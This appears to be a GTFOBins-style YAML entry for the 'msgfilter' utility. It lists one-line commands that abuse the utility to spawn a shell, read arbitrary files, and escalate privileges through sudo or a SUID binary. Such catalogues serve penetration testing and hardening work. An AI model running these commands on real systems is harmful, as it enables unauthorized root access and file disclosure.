 ```yaml
---
functions:
  shell:
    - description: Any text file will do as the input (use `-i`). `kill` is needed to spawn the shell only once.
      code: |
        echo x | msgfilter -P /bin/sh -c '/bin/sh 0<&2 1>&2; kill $PPID'
  file-read:
    - description: The file is parsed and displayed as a Java `.properties` file, so this may not be suitable to read arbitrary binary data. `/bin/cat` can be replaced with any other *filter* program.
      code: |
        LFILE=file_to_read
        msgfilter -P -i "LFILE" /bin/cat
  sudo:
    - description: Any text file will do as the input (use `-i`). `kill` is needed to spawn the shell only once.
      code: |
        echo x | sudo msgfilter -P /bin/sh -c '/bin/sh 0<&2 1>&2; kill $PPID'
  suid:
    - description: Any text file will do as the input (use `-i`). `kill` is needed to spawn the shell only once.
      code: |
        echo x | ./msgfilter -P /bin/sh -p -c '/bin/sh -p 0<&2 1>&2; kill $PPID'
---
```

